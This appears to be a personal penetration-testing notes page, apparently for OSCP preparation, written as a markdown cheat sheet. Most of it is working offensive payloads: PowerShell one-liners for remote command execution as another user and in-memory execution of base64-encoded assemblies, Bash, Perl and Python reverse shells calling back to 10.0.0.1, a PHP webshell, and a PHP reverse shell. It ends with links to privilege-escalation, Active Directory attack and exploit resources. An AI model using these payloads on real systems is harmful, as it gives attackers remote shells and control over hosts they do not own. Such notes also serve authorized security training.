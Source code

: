 ```yaml
---
layout: single
title: Notes
permalink: /notes/
author_profile: true
---
```


- [Powershell](#powershell)
  - [One liner run command as another user](#one-liner-run-command-as-another-user)
  - [One liner to execute base64 encoded assembly](#one-liner-to-execute-base64-encoded-assembly)
  - [Run arbitrary assembly](#run-arbitrary-assembly)
  - [Download file](#download-file)
  - [Powershell-friendly base64 from Linux](#powershell-friendly-base64-from-linux)
  - [Base64 encode file](#base64-encode-file)
- [Shells](#shells)
  - [Bash](#bash)
  - [Perl](#perl)
  - [Python](#python)
  - [PHP](#php)
  - [Sites/Cheat sheets](#sitescheat-sheets)
    - [PayloadsAllTheThings](#payloadsallthethings)
    - [Pentestmonkey](#pentestmonkey)
- [Resources(Useful Websites)](#resourcesuseful-websites)
  - [General/OSCP](#generaloscp)
  - [Privilege Escalation](#privilege-escalation)
    - [Linux](#linux)
    - [Windows](#windows)
  - [Active Directory](#active-directory)
    - [Offense](#offense)
    - [Defense](#defense)
  - [Web App](#web-app)
  - [Buffer Overflow</h2>](#buffer-overflowh2)
  - [Wireless](#wireless)
  - [Tools](#tools)

## Powershell
### One liner run command as another user
```
$secpasswd = ConvertTo-SecureString "xxxxx" -AsPlainText -Force; $creds = New-Object System.Management.Automation.PSCredential("DOMAIN\USER", $secpasswd); Invoke-Command -ComputerName re -Credential $creds -ScriptBlock {c:\path\to\cmd.exe 10.10.10.1 9003 -e cmd}
```
### One liner to execute base64 encoded assembly
```
[System.Reflection.Assembly]::Load([System.Convert]::FromBase64String(<base64-str-here>)).EntryPoint.Invoke($null,@(,([string[]](""))))
```
### Run arbitrary assembly
```
$as.EntryPoint.Invoke($null, @(,[string[]]("arg1", "arg2", "etc")))
```
### Download file
```
iwr -Uri <url> -OutFile <name>
```
### Powershell-friendly base64 from Linux
```
echo -n '<text>' | iconv -f UTF8 -t UTF16LE | base64
```
### Base64 encode file
```
[Convert]::ToBase64String([IO.File]::ReadAllBytes(<file-path>))
```
## Shells
### Bash
Regular
```
bash -i >& /dev/tcp/10.0.0.1/8888 0>&1
```
Background process
```
bash -c '(bash -i >& /dev/tcp/10.0.0.1/8888 0>&1)&'
```
### Perl
```
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
### Python
One Liner
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
In a script  

```
import socket
import subprocess
import os

s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.0.0.1",1234))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p = subprocess.call(["/bin/sh","-i"])
```
### PHP
Webshell
```
<?php echo system($_GET['cmd']); ?>
```
Bash reverse shell
```
<?php system(bash -c '(bash -i >& /dev/tcp/10.0.0.1/8888 0>&1)&'); ?>
```

### Sites/Cheat sheets
#### PayloadsAllTheThings
[Reverse shell cheat sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
#### Pentestmonkey
[Reverse shell cheat sheet]()

## Resources(Useful Websites)
### General/OSCP
[https://guif.re](https://guif.re)  
[https://scund00r.com/all/oscp/2018/02/25/passing-oscp.html](https://scund00r.com/all/oscp/2018/02/25/passing-oscp.html)
### Privilege Escalation
#### Linux
[https://guif.re/linuxeop](https://guif.re/linuxeop  
)  
[https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)
#### Windows
[https://guif.re/windowseop](https://guif.re/windowseop)  
[https://www.fuzzysecurity.com/tutorials/16.html](https://www.fuzzysecurity.com/tutorials/16.html)
### Active Directory
#### Offense
[https://blog.harmj0y.net/](https://blog.harmj0y.net/)  
[https://adsecurity.org/](https://adsecurity.org/)  
[https://medium.com/@adam.toscher/top-five-ways-i-got-domain-admin-on-your-internal-network-before-lunch-2018-edition-82259ab73aaa](https://medium.com/@adam.toscher/top-five-ways-i-got-domain-admin-on-your-internal-network-before-lunch-2018-edition-82259ab73aaa)
#### Defense
[https://medium.com/blue-team/preventing-mimikatz-attacks-ed283e7ebdd5](https://medium.com/blue-team/preventing-mimikatz-attacks-ed283e7ebdd5)
### Web App
[https://guif.re/webtesting](https://guif.re/webtesting)  
[https://www.apriorit.com/dev-blog/622-qa-web-application-pen-testing-owasp-checklist](https://www.apriorit.com/dev-blog/622-qa-web-application-pen-testing-owasp-checklist)   
[https://github.com/blabla1337/skf-labs](https://github.com/blabla1337/skf-labs)
### Buffer Overflow
[https://github.com/stephenbradshaw/vulnserver](https://github.com/stephenbradshaw/vulnserver)  
[https://www.youtube.com/watch?v=qSnPayW6F7U&list=PLLKT__MCUeix3O0DPbmuaRuR_4Hxo4m3G](https://www.youtube.com/watch?v=qSnPayW6F7U&list=PLLKT__MCUeix3O0DPbmuaRuR_4Hxo4m3G)  
[http://netsec.ws/?p=180](http://netsec.ws/?p=180)  
[https://dl.packetstormsecurity.net/papers/general/overflows_and_more.pdf](https://dl.packetstormsecurity.net/papers/general/overflows_and_more.pdf)
### Wireless
[https://www.aircrack-ng.org/doku.php?id=cracking_wpa](https://www.aircrack-ng.org/doku.php?id=cracking_wpa)
### Tools
[https://github.com/worawit/MS17-010](https://github.com/worawit/MS17-010)  
[https://github.com/danielmiessler/SecLists](https://github.com/danielmiessler/SecLists)  
[https://www.exploit-db.com/](https://www.exploit-db.com/)  
[https://github.com/zricethezav/gitleaks](https://github.com/zricethezav/gitleaks)  
[https://crt.sh/](https://crt.sh/)
